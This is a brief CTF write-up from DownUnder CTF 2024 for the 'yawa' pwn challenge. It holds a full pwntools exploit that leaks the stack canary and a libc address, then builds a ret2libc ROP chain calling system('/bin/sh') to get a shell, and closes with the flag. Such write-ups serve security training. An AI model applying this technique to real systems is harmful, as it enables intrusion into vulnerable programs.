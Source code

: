 ```yaml
---
title: "Downunder CTF 2024 Writeup"
date: 2024-07-15T00:00:00+08:00
draft: false
github_link: "https://github.com/Jimmy01240397/CTF-writeup"
author: "Chumy"
tags:
  - CTF
image: /images/CTF.png
description: ""
toc: 
---
```


# Downunder CTF 2024 Writeup

第一次解保護全開的 PWN 好開心WW

## yawa


### exploit

```python
import pwn

pwn.context(arch='amd64', os='linux')
libc = pwn.ELF('./libc.so.6')

#r = pwn.process('./yawa')
r = pwn.remote('2024.ductf.dev', 30010)

r.recvuntil(b'\n> ')
r.send(b'1\n' + b'a'*88 + b'\n')
r.recvuntil(b'\n> ')
r.send(b'2\n')
r.recvuntil(b'aaa\n')

canary = b'\x00' + r.recvuntil(b'\n')[:-2]
print(f'canary: {hex(pwn.u64(canary))}')

r.recvuntil(b'\n> ')
r.send(b'1\n' + b'a'*89 + canary[1:] + b'a'*7 + b'\n')
r.recvuntil(b'\n> ')
r.send(b'2\n')
r.recvuntil(b'aaa\n')

libc_init_first = int.from_bytes(r.recvuntil(b'\n')[:-1], 'little') - 0x90
print('libc_init_first: ' + hex(libc_init_first))

r.recvuntil(b'\n> ')

libc_init_first_offset = libc.symbols['__libc_init_first']
libc.address = libc_init_first - libc_init_first_offset
system_addr = libc.symbols['system']
binsh_addr = next(libc.search('/bin/sh'))
pop_rdi = pwn.ROP(libc).find_gadget(['pop rdi', 'ret'])

r.send(b'1\n' + b'a'*88 + canary + b'a'*8 + pwn.p64(pop_rdi.address) + pwn.p64(binsh_addr) + pwn.p64(pop_rdi.address + 1) + pwn.p64(system_addr))

r.recvuntil(b'\n> ')

r.send(b'0\n')

r.interactive()
```

### flag

![image](https://github.com/user-attachments/assets/74ae9cb9-f2e9-4981-bed5-fd0671895d89)

`DUCTF{Hello,AAAAAAAAAAAAAAAAAAAAAAAAA}`
